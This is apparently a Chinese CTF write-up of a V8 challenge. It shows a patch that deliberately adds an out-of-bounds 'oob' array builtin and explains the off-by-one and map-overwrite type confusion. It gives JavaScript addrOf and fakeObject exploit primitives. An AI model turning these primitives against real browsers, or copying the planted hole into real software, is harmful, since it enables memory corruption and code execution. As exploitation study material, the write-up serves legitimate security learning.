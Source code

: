 补丁：

```
--- a/src/bootstrapper.cc
+++ b/src/bootstrapper.cc
@@ -1668,6 +1668,8 @@ void Genesis::InitializeGlobal(Handle<JSGlobalObject> global_object,
                           Builtins::kArrayPrototypeCopyWithin, 2, false);
     SimpleInstallFunction(isolate_, proto, "fill",
                           Builtins::kArrayPrototypeFill, 1, false);
+    SimpleInstallFunction(isolate_, proto, "oob",
+                          Builtins::kArrayOob,2,false);  //增加了一个oob成员函数
     SimpleInstallFunction(isolate_, proto, "find",
                           Builtins::kArrayPrototypeFind, 1, false);
     SimpleInstallFunction(isolate_, proto, "findIndex",


diff --git a/src/builtins/builtins-array.cc b/src/builtins/builtins-array.cc
index 8df340e..9b828ab 100644
--- a/src/builtins/builtins-array.cc
+++ b/src/builtins/builtins-array.cc
@@ -361,6 +361,27 @@ V8_WARN_UNUSED_RESULT Object GenericArrayPush(Isolate* isolate,
   return *final_length;
 }
 }  // namespace
+BUILTIN(ArrayOob){
+    uint32_t len = args.length();
+    /* 参数多于2即退出 */
+    if(len > 2) return ReadOnlyRoots(isolate).undefined_value();
+    Handle<JSReceiver> receiver;
+    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+            isolate, receiver, Object::ToObject(isolate, args.receiver()));
+    Handle<JSArray> array = Handle<JSArray>::cast(receiver);                       
+    FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());         //取数组对象的elements出来
+    uint32_t length = static_cast<uint32_t>(array->length()->Number());            //数组长度
+    if(len == 1){
+        //read
+        return *(isolate->factory()->NewNumber(elements.get_scalar(length)));      //读下标length的元素出来
+                                                                                   //即越界读一个元素大小
+    }else{
+        //write
+        Handle<Object> value;
+        ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+                isolate, value, Object::ToNumber(isolate, args.at<Object>(1)));
+        elements.set(length,value->Number());                                      //往下标length处写入value
+                                                                                   //即越界写一个元素大小
+        return ReadOnlyRoots(isolate).undefined_value();
+    }
+}
```

### Root case

主要原因就是在读取和写入中，将length当作了数组下标（正确应为length - 1），所以导致存在了一个off-by-one。

这里有一个小trick：

如果使用[]方括号来声明数组，得到的内存布局中对象的elements会在对象的前面。但是如果用的是new Array()的方法来声明数组，得到的内存布局中，elements会放在对象的后面。

我们可以利用off-by-one来修改object的map，如果修改了一个object的map，那么在识别他类型的时候就会识别为map所对应的类型，这样就导致了类型混淆。

##### 首先构造原语：
oob很好理解，如果有一个参数就是将参数越界write，如果没有参数则是越界读（因为默认有一个参数this，所以代码里参数数量分别为1和2）

```
var obj = {m:i2f(0xdeadbeef), target:func};
var objarray = [obj];
var floatarray = [1.1,2.2,3.3];
var floatmap = floatarray.oob();
var objmap = objarray.oob();

function addrOf(target)
    {
        objarray[0] = target;          
        objarray.oob(floatmap);    
        let ret = objarray[0];          
        objarray.oob(objmap);  
        return f2i(ret);
    }
    
    //fake a float as an object pointer
    function fakeObject(target)
    {
        floatarray[0] = target;         
        floatarray.oob(objmap);    
        let ret = floatarray[0];
        floatarray.oob(floatmap);  
        return ret;
    }
```

简单解释一下：

- 首先是addrof，我们首先在objarray的elements[0]处布置一个目标object，之后将objarray的map修改为floatmap，这样v8就会识别他为float数组，我们就可以将object以float的形式读出，也就获得了他的地址。
- 接着是fakeObject，当我们需要将一个float被识别为object时，就会用到该原语，首先将floatarray的elements[0]处布置一个要伪造的float，之后将floatarray的map修改为objmap，这样的话v8就会将floatarray中的值当作一个object。

之后直接伪造一个arraybuffer即可，利用写起来类似于这个之前的cve：https://github.com/yytgravity/Daily-learning-record/tree/master/cve/CVE-2017-5070


